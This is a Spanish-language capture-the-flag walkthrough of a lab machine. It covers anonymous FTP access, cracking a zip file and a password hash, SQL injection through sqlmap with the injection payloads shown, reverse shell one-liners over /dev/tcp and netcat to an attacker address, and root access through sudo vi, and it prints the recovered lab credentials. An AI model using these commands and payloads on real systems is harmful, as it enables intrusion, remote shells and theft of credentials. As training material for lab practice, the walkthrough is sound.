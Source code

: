 #Linux #Easy #fuzzing
### nmap
```python
nmap -sVC 10.129.66.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 16:29 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.95% done; ETC: 16:29 (0:00:20 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.37% done; ETC: 16:29 (0:00:06 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:30 (0:00:03 remaining)
Nmap scan report for 10.129.66.130
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.157
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

###### Podemos ver que el puerto 21 esta corriendo el servicio ftp el cual esta configurado por defecto como anonymous
### ftp
```python
ftp 10.129.66.130
Connected to 10.129.66.130.
220 (vsFTPd 3.0.3)
Name (10.129.66.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10423|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

###### al entrar nos damos cuenta que existe un archivo backup.zip el cual descargaremos usando `get backup.zip` si hacemos `unzip backup.zip` al intentar descomprimir el archivo nos damos cuenta que esta cifrado por lo que usaremos `john the ripper con la opcion zip2john` 

```python
zip2john backup.zip > backuphash  
```
###### con la opcion `>` cambiamos el nombre para que podamos ver el hash de la contraseña, ahora le hacemos un `cat` para ver si tenemos el hash y si todo esta correcto le pasamos el john 

```python
john -wordlist=/usr/share/wordlists/rockyou.txt backuphash

--Passw: 741852963
```

![[2023-10-11_17-11.png]]

###### conseguimos dos archivos: `index.php` `style.css` el index.php se ve prometedor asi que le hacemos un `cat`

![[2023-10-11_17-21.png]]
###### conseguimos lo que parece ser una contraseña que esta codificada en otro hash. entonces usaremos hashid para intentar saber que tipo de hash es 

```python
:hashid 2cb42f8734ea607eefed3b70af13bbd3
```
![[2023-10-11_17-42.png]]

###### Podriamos probar con MD2 - MD5 y MD4 que son los mas comunes. para esto usaremos `hashcat`

```python
hashcat -a 0 -m 0 passwhash /usr/share/wordlists/rockyou.txt
```
![[2023-10-11_17-53.png]]

###### Bueno nos guardamos la contraseña probaremos entrar en la direccion web ya que en el reconocimiento nmap nos damos cuenta que tambien tiene el puerto 80 abierto

![[2023-10-11_18-14.png]]

### iniciamos con las credenciales que hemos conseguido
```python
--admin
--qwerty789
```

![[2023-10-11_18-48.png]]

###### logramos entrar y haciendo unas pruebas rapidas parece que la pag esta conectada a la base de datos y es vulnerable a SQLI. 

```python
como podemos saber si es vulnebrable a SQLI. en el buscador ponemos una comilla simple ` y damos enter y vemos que aparece un error. esto se debe a que la pag esta leyendo la comilla como si fuera un caracter alfa numerico y no como un caracter especial como deberia ser
```
para verificar esto usaremos `sqlmap`
```python
sqlmap -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg"

-u para indicar la url de la pag 
--cookie para indicar la cookie de session 

si hacemos sqlmap -h se abre el panel de ayuda y podemos ver que el comando --current-db nos enumera la base de datos actual en la que estamos asi que usaremos ese 

tambien podemos ver que existe uno llamado --batch para que realice todas las acciones por defecto sin pregunytarnos nada. asi que el comando nos queda de la sigiente manera: 
------------------------------------------------------
sqlmap --current-db -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
------------------------------------------------------
```

### Podemos ver que el resultado:
![[2023-10-11_19-11.png]]

### Podemos notar que existen 4 tipos de inyecciones SQLI y que el nombre de la base de datos es public

```python
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (1509=1509) THEN NULL ELSE CAST((CHR(101)||CHR(86)||CHR(75)||CHR(74)) AS NUMERIC) END)) IS NULL-- nIOk

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 2166=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (2166=2166) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- NgJP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 7512=(SELECT 7512 FROM PG_SLEEP(5))-- tfIZ
```

###### ahora que sabemos el nombre de la base de datos podemos enumerarla usando el mismo comando sqlmap con una pequeña variante: 
```python
sqlmap -D public --tables -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```
conseguimos una tabla llamada cars asi que buscaremos esa tabla con el siguiente comando
```python
sqlmap -D public -T cars --culumns -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-25.png]]

###### podemos ver algunas columnas pero si nos fijamos podemos ver que son las mismas que salen ena la pagina web asi que mejor seguimos buascando en sqlmap y podemos encontar la opcion `--os-shell` asi que lo usaremos en nuestro codigo.

```python
sqlmap --os-shell -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-35.png]]

###### de esta manera hemos conseguido una shell interactiva. pero esta shell esta un poco limitada asi que podemos intentar enviarnos una reverse shell a nuestro equipo para poder interactuar de mejor manera.

```python
sh -i >& /dev/tcp/10.10.15.157/8001 0>&1
```

```python
bash -c 'bash -i >& /dev/tcp/10.10.15.157/8001 0>&1'
```

###### con esta bash notamos que perdemos coneccion. asi que usaremos una enviada por netcat para intentar resolver esto.

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

### despues de esto hacemos tratamiento tty y empezamos a examinar la maquina.

###### vamos a navegar hasta el directorio donde esta alojada la base de datos
passid:
```python
2cb42f8734ea607eefed3b70af13bbd3
```
db:id
```python
user: postgres
password: P@s5w0rd!
```

### con estas credenciales podriamos intentar entrar via ssh

hacemos sudo -l para saber cuales son los permiso que tiene el usuario postgres como administrador 

```python
/bin/vi /etc/postgresql/11/main/pg_hba.config`
```

vemos que tiene permisos solo en este archivo asi que lo ejecutaremos como administrador 
```python
sudo /bin/vi /etc/postgresql/11/main/pg_hba.config
```

abrimos el archivo, y le decimos que nos de una shell y presionamos enter. 
automaticamente seremos root

### WE ARE ROOT